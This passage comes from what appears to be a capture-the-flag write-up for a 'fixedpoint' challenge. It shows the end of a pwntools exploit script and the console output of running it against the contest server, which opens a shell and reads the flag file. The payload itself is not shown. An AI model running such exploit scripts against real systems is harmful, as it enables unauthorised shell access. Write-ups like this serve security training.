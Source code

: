 ```python

for d in payload:
    r.sendline(d)
# make scanf return 0
r.sendline('pretty please')
r.interactive()
```

Once executed, we have our shell:

```bash
$ ./payload.py
[+] Opening connection to fixedpoint.pwning.xxx on port 7777: Done
[*] Switching to interactive mode
here we go
$ ls
fixedpoint_02dc03c8a5ae299cf64c63ebab78fec7
flag.txt
wrapper
$ cat flag.txt
PCTF{why_isnt_IEEE_754_IEEE_7.54e2}
```

Maybe I should have spent hours reading the specs of IEEE 754 ;)

